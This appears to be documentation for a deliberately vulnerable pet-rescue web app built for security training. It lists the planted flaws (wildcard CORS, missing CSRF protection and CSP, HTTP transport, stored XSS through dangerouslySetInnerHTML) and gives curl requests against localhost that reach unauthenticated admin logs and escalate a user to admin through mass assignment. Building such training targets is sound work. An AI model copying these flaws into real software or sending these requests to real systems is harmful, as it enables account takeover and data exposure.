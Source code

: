 ## **Security Misconfigurations**

### **1. Missing Security Headers**
- No HSTS headers
- CORS misconfiguration (Access-Control-Allow-Origin: *)
- Missing CSRF protection
- No Content Security Policy

### **2. Insecure Communication**
- API served over HTTP instead of HTTPS
- Sensitive data transmitted in plain text

### **3. Weak Password Policies**
- No password complexity requirements
- Weak password reset tokens
- No account lockout mechanisms

### **4. Stored XSS (Cross-Site Scripting)**
- Pet descriptions rendered as HTML without sanitization
- Allows injection of malicious scripts that execute in users' browsers
- Can lead to session hijacking, account takeover, and data theft
- Frontend uses `dangerouslySetInnerHTML` without proper sanitization

## **Testing the New Vulnerabilities**

### **1. No Authentication Check on Logging:**
```bash
# Test accessing admin logs without authentication - SUCCESS ✅
curl -X GET http://localhost:3001/api/v1/admin/logs
# Result: Returned sensitive audit logs with user actions and admin operations
```

### **2. Duplicate Endpoints Vulnerability:**
```bash
# Test accessing rescue data through admin endpoint without authentication - SUCCESS ✅
curl -X GET http://localhost:3001/api/v1/admin/public-rescues
# Result: Returned complete rescue data including users and pets
```

### **3. Mass Assignment Vulnerability:**
```bash
# Test user escalating to admin role and changing password - SUCCESS ✅
curl -X PUT http://localhost:3001/api/v1/users/profile/vulnerable \
  -H "Authorization: Bearer <user_token>" \
  -H "Content-Type: application/json" \
  -d '{"role":"admin","newPassword":"hacked123"}'
# Result: User role changed from "user" to "admin", password updated
```
